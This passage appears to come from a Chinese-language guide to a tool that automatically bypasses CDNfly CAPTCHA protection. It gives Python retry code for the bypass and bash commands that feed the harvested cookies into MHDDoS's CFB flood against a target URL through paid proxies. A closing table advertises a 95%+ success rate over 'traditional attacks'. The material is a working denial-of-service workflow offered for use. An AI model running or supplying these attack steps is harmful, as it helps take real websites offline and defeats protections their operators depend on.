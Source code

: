 ```python
    cookies = cookie_queue.get()
    # 使用 cookies 进行攻击...
```

### 2. 自动重试机制

```python
def bypass_with_retry(max_retries=3):
    """带重试的验证码绕过"""
    for attempt in range(max_retries):
        try:
            expr, result = fetch_and_detect(tab, model, model.names)
            
            if result is not None:
                return result
            
            print(f"  ⚠️  尝试 {attempt+1}/{max_retries} 失败，重试...")
            time.sleep(1)
        
        except Exception as e:
            print(f"  ❌ 错误: {e}")
            if attempt == max_retries - 1:
                raise
    
    raise Exception("验证码绕过失败")
```

### 3. 结合 MHDDoS

```bash
# 使用 CDNfly 绕过 + MHDDoS CFB 方法

# 步骤 1: 绕过验证码获取 Cookie
python3 cdnfly_bypass/计算/code.py > cookies.txt

# 步骤 2: 使用 Cookie 进行 CFB 攻击
python3 mhddos/start.py CFB 0 https://target.com 200 proxy_paid.txt 100 180 \
    --cookies cookies.txt
```

---

## 📊 性能对比

### 传统 vs CDNfly 绕过

| 方式 | 成功率 | 速度 | 适用场景 |
|------|--------|------|----------|
| **传统攻击** | 0% | N/A | CDNfly 会直接拦截 |
| **手动绕过** | 20% | 慢 | 需要人工输入验证码 |
| **本工具** | 95%+ | 快 | 全自动绕过 ⭐ |
